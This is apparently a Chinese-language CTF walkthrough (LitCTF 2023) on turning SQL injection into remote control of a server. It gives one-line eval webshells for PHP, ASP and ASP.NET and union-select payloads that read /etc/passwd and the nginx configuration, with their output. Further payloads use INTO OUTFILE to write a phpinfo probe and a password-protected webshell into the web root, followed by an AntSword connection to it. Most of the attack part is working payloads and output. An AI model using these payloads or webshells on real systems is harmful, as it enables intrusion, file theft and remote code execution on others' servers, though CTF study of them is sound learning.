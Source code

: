 ---
# Sql注入os远程控制
## 一句话木马
一句话木马是一种短小而精悍的木马客户端，隐蔽性好，且功能强大。

* PHP:
```php
<?php @eval($_POST['chopper']);?>
```
* ASP:
```php
<%eval request("chopper")%>
```
* ASPNET:
```php
 <%@ Page Language="Jscript"%><%eval(Request.Item["chopper"],"unsafe");%>
```

## 前提条件
1. 需要知道远程目录
2. 需要远程目录有写权限
3. 需要数据库开启了secure file_priv

## into outfile
```sql
select 1,2 into outfile "/var/www/html/1.txt'
```
作用：将**select的结果**写入文件`/var/www/html/1.txt`
需要构造命令：
```sql
select <?php @eval($_POST['chopper']);?>,2 into outfile "/var/www/html/1.html'
```
## 操作
以***1[LitCTF 2023]这是什么？SQL ！注一下 ！*** 为例
### 收集信息
#### 系统用户的基本信息
```sql
# payload:
?id=-1)))))) union select load_file('/etc/passwd'),2%23

回显：
root:x:0:0:root:/root:/bin/ash 
bin:x:1:1:bin:/bin:/sbin/nologin 
daemon:x:2:2:daemon:/sbin:/sbin/nologin 
adm:x:3:4:adm:/var/adm:/sbin/nologin 
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin 
sync:x:5:0:sync:/sbin:/bin/sync 
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown 
halt:x:7:0:halt:/sbin:/sbin/halt 
mail:x:8:12:mail:/var/mail:/sbin/nologin 
news:x:9:13:news:/usr/lib/news:/sbin/nologin 
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin 
operator:x:11:0:operator:/root:/sbin/nologin 
man:x:13:15:man:/usr/man:/sbin/nologin 
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin 
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin 
ftp:x:21:21::/var/lib/ftp:/sbin/nologin 
sshd:x:22:22:sshd:/dev/null:/sbin/nologin 
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin 
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin 
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin 
games:x:35:35:games:/usr/games:/sbin/nologin 
cyrus:x:85:12::/usr/cyrus:/sbin/nologin 
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin 
ntp:x:123:123:NTP:/var/empty:/sbin/nologin 
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin 
guest:x:405:100:guest:/dev/null:/sbin/nologin 
nobody:x:65534:65534:nobody:/:/sbin/nologin 
www-data:x:82:82:Linux User,,,:/home/www-data:/sbin/nologin 
mysql:x:100:101:mysql:/var/lib/mysql:/sbin/nologin 
nginx:x:101:102:nginx:/var/lib/nginx:/sbin/nologin
```
Unix 或类 Unix 系统中的 /etc/passwd 文件的内容,包含了系统用户的基本信息
示例行的解释：
```
root:x:0:0:root:/root:/bin/ash：
登录名：    root
密码：      x（密码存储在 /etc/shadow）
用户 ID：   0
组 ID：     0
用户全名：  root
家目录：    /root
登录        shell：/bin/ash
```
#### 寻找网站根目录
接下来读取nginx配置文件
```sql
# payload:
?id=-1)))))) union select load_file('/etc/nginx/nginx.conf'),2%23

回显：
daemon off; worker_processes auto; error_log /var/log/nginx/error.log warn; events { worker_connections 1024; } http { include /etc/nginx/mime.types; default_type application/octet-stream; sendfile on; keepalive_timeout 65; server { listen 80; server_name localhost; root /var/www/html; index index.php; proxy_set_header Host $host; proxy_set_header X-Real-IP $remote_addr; proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for; location / { try_files $uri $uri/ /index.php?$args; } location ~ \.php$ { try_files $uri =404; fastcgi_pass 127.0.0.1:9000; fastcgi_index index.php; include fastcgi_params; fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name; } } }
```
```nginx
整理一下
# 运行 Nginx 为前台进程
daemon off;

# 根据可用 CPU 核心数自动设置工作进程数量
worker_processes auto;

# 设置错误日志文件的路径和日志级别
error_log /var/log/nginx/error.log warn;

# 事件处理模块配置
events {
    # 每个工作进程可以同时打开的最大连接数
    worker_connections 1024;
}

# HTTP 服务器配置
http {
    # 包含 MIME 类型定义文件
    include /etc/nginx/mime.types;
    
    # 默认的 MIME 类型
    default_type application/octet-stream;
    
    # 启用 sendfile，提高文件传输性能
    sendfile on;
    
    # 设置保持连接的超时时间
    keepalive_timeout 65;
    
    # 虚拟主机配置
    server {
        # 监听端口 80
        listen 80;
        
        # 服务器名称
        server_name localhost;
        
        # 网站文件的根目录
        root /var/www/html;
        
        # 默认的索引文件
        index index.php;
        
        # 设置代理头信息
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        
        # 根目录的处理规则
        location / {
            try_files $uri$uri/ /index.php?$args;
        }
        
        # PHP 文件的处理规则
        location ~ \.php$ {
            try_files $uri =404;
            fastcgi_pass 127.0.0.1:9000;
            fastcgi_index index.php;
            include fastcgi_params;
            fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
        }
    }
}

```
找到网站根目录：`/var/www/html`
#### 写入php探针
```sql
# payload:
?id=-1)))))) union select '<?php phpinfo();?>',2 into outfile '/var/www/html/info.php'%23
```
然后访问http://node5.anna.nssctf.cn:24209/info.php      
可以看到`phpinfo`页面
#### 写入webshell
```sql
# payload:
?id=-1)))))) union select '<?php eval($_POST["attack"]);?>',2 into outfile '/var/www/html/attack.php'%23
```
我们在`/var/www/html/`创建了`attack.php`        
蚁剑连接：http://node6.anna.nssctf.cn:28413/attack.php      
密码`attack`      
然后就可以为所欲为了
接下来看***get shell后获取数据库.md***